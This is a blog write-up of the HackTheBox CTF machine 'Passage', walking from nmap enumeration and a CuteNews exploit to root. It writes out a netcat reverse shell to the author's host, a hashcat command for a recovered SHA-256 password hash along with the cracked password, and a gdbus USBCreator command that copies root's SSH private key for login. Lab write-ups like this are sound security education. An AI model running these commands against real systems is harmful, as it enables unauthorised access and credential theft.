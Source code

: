 ```yaml
---
layout: single
title:  Passage HackTheBox Walkthrough
date: 2022-7-25
classes: wide
header:
  teaser: 
tags:
  - HackTheBox
  - ctf
  - Linux
--- 
```


This box was made by my buddy @ChefByzen on Twitter, I know him from our Uni CTF team. Very cool box!

Let's get into it.
I started off by enumerating like usual with NMAP
```
# Nmap 7.80 scan initiated Sat Sep 26 16:38:13 2020 as: nmap -sCV -p- -vvv -A -T4 -oA passage 10.10.10.206
Nmap scan report for 10.10.10.206
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVnCUEEK8NK4naCBGc9im6v6c67d5w/z/i72QIXW9JPJ6bv/rdc45FOdiOSovmWW6onhKbdUje+8NKX1LvHIiotFhc66Jih+AW8aeK6pIsywDxtoUwBcKcaPkVFIiFUZ3UWOsWMi+qYTFGg2DEi3OHHWSMSPzVTh+YIsCzkRCHwcecTBNipHK645LwdaBLESJBUieIwuIh8icoESGaNcirD/DkJjjQ3xKSc4nbMnD7D6C1tIgF9TGZadvQNqMgSmJJRFk/hVeA/PReo4Z+WrWTvPuFiTFr8RW+yY/nHWrG6LfldCUwpz0jj/kDFGUDYHLBEN7nsFZx4boP8+p52D8F
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdB2wKcMmurynbHuHifOk3OGwNcZ1/7kTJM67u+Cm/6np9tRhyFrjnhcsmydEtLwGiiY5+tUjr2qeTLsrgvzsY=
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRIhMr/zUartoStYphvYD6kVzr7TDo+gIQfS2WwhSBd
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Not much is open so I decided to check out the site
Immediately I see that they have fail2ban and another user kim switft

```
**Implemented Fail2Ban**
18 Jun 2020 By admin 0 Comments
Due to unusally large amounts of traffic, View & Comment
Phasellus tristique urna
12 Jun 2020 By Kim Swift 0 Comments
Sed felis pharetra, nec sodales diam sagittis. View & Comment 
```

So gobuster is out of the question to enumerate directories.
I set out to investigate the site manually by playing around and I saw that it is powered by cutenews
After searching around I came across two exploits for it. 
One was metasploit and the other someone had written a python script for after the box was released.
The author of the box says that the intended route is with metasploit.

In either case you get a shell as www-data, we can't get the flag just yet. We have to escalate privileges to get the user flag. 

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/cutenews.png)

First order of business was making this a reverse shell cause I can't stand that default shell.
I ran nc -lnvp 9827 on my host kali machine and nc 10.10.**.** 9827 -e /bin/bash on the passage box

--------------------------

PRO TIP: RUN THESE FOR AN ENJOYABLE EXPERIENCE IN YOUR SHELL
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
then
```
[CTRL-Z]
stty raw -echo;fg
[ENTER][ENTER]

source /etc/skel/.bashrc 
export TERM=screen-256color
```
END OF PRO TIP 

--------------------

At this point I got lost, that was until until I dig deeper and found /var/www/html/CuteNews/cdata.
In this directory I fell into a rabbithole of writing a python script to base64 decode the hashes inside of these many files
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/base64.png)

For example, inside of one of those php files 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/1stphp.png)
has the first line as garbage and the second line being a base64 string. 
This script turned out to be for naught as the actual way to escalate privileges can be found inside the **Lines** file. 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/lines.png)
if you go through and decode them you come across one that says paul@passage.htb which is one of the two users I found when I was enumerating the home directory
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/homedir.png)

Then we throw that hash we found into a hash analyzer and realize it's sha-256, well we could give it a shot cracking that hash to get his password.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/analyzer.png)

We could easily enough crack it with hashcat but this online service did it in less than a second.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/hashcrack.png)
If you want to take a more manual approach with hashcat yourself you could do it with 
```
hashcat -m 1400 paul.txt /usr/share/wordlists/rockyou.txt
```
at any rate you get atlanta1 as the password for paul
I enumerated as paul for a while until I eventually went into the .ssh dir and cated it all out,
I saw that nadav was in the authorized keys so while logged into paul I SSHd into nadav. 
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/images/PassageHTB/sshNadav.png)

Now out of all the privilege escalation i did for this box going from nadav to root was by far the hardest.
I always start out running a script that gives me a quick overview of the entire box very easily in case there's something i can spot out of place. In this case it didn't help all too much and I was left to exploring on my own

fail2ban, zeitgeist, and CUPS were the first processes that I investigated but I didn't come to any solution. I finally stumbled upon

```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
While looking at all the running processes. 
I don't remember having seen this before so I googled it and came across this article 
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
They describe how to exploit this to copy files to other 
```
gdbus call --system --dest com.ubuntu.USBCREATOR --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true
```
This copies the root rsa key to /tmp/pwn on my box. 
then we 
```
chmod 600 root_id_rsa 
ssh -i root_id_rsa root@10.10.10.206
```
And you can access root.txt
Thanks for reading!

